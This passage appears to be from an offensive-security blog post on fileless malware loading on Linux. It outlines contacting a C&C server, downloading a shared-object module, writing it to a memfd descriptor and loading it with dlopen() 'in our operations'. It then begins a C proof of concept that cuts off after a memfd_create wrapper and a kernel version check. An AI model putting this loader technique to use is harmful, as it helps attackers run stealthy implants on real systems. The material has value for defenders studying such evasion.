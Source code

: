 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
In order to load dynamically code we can program a very simple plugin system that loads shared objects (.so) and register new functionalities. We can use dlopen() to this approach because it admits a file descriptor as paramater :). So here is the mix:
- Contact C&C and download a module
- Open a file descriptor to a memory region and write there the .so
- Use dlopen() with that file descriptor to load the new code
- Profit

Of course this approach is pretty "lazy", but still being a valid trick to use in our operations.

## PoC || GTFO

Here is a simple example of how it can be done

```c
/* Skeleton PoC */

#define _GNU_SOURCE


#include <curl/curl.h>
#include <dlfcn.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <sys/utsname.h>
#include <unistd.h>



#define SHM_NAME "IceIceBaby"
#define __NR_memfd_create 319 // https://code.woboq.org/qt5/include/asm/unistd_64.h.html


// Wrapper to call memfd_create syscall
static inline int memfd_create(const char *name, unsigned int flags) {
	return syscall(__NR_memfd_create, name, flags);
}

// Detect if kernel is < or => than 3.17
// Ugly as hell, probably I was drunk when I coded it
int kernel_version() {
	struct utsname buffer;
	uname(&buffer);
	
	char *token;
	char *separator = ".";
	
	token = strtok(buffer.release, separator);
	if (atoi(token) < 3) {
		return 0;
	}
	else if (atoi(token) > 3){
		return 1;
	}

	token = strtok(NULL, separator);
	if (atoi(token) < 17) {
		return 0;
```